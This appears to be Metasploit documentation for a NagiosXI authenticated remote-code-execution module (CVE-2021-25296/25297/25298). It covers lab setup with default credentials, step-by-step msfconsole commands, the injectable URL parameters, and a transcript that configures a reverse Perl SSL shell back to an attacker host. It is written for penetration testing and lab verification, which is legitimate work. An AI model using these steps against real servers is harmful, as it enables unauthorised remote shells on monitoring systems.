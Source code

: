 ### Troubleshooting Installation
- NagiosXI doesn't show it's ip address
  - Login as the `root` user with `nagiosxi` as the password, and run `ip a` to get the IP
  - Ensure it's on a network accessible from your attacking machine (e.g. NAT network instead of Bridged)
- NagiosXI fails when attempting to login manually with an "NSP Sorry Dave" message
  - The NagiosXI installation is likely out of sync with its date/time.
  - Set it manually with `timedatectl set-ntp false` and `timedatectl set-time '2023-02-06 17:34:00'` but with the actual time and date

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/nagios_xi_configwizards_authenticated_rce`
- [ ] `set RHOSTS TARGET_IP`
- [ ] `set RPORT 443`
- [ ] `set SSL true`
- [ ] `set USERNAME USER`
- [ ] `set PASSWORD PASSWORD`
- [ ] `set TARGET_CVE CVE-2021-25296`
- [ ] `set LHOST YOUR_IP`
- [ ] `set LPORT YOUR_LISTENING_PORT`
- [ ] `run`

## Options

### USERNAME
A valid NagiosXI username, which can be for an administrator or regular user.

### PASSWORD
The password for the provided NagiosXI username.

### TARGET_CVE
The CVE to target. Each CVE corresponds to a specific target:
- CVE-2021-25296: `windowswmi` configuration wizard RCE via the `plugin_output_len` URL parameter
- CVE-2021-25297: `switch` configuration wizard RCE via the `ip_address` URL parameter.
  Note that on versions 5.5.7 and prior this parameter is named `address` instead.
- CVE-2021-25298: `cloud-vm` configuration wizard RCE via the `ip_address` URL parameter.
  Note that on versions 5.5.7 and prior this parameter is named `address` instead.

Note that CVE-2021-25298 is in the `cloud-vm` configuration wizard but we set the `wizard`
URL parameter value to `digitalocean` in order to make sure we use this wizard; there are
potentially other values that could be used here.

## Scenarios

### CentOS7 Running NagiosXI 5.7.5 (Official OVA) - CVE-2021-25296
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
RHOST => 192.168.153.132
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FINISH_INSTALL true
FINISH_INSTALL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set USERNAME nagiosadmin
USERNAME => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
```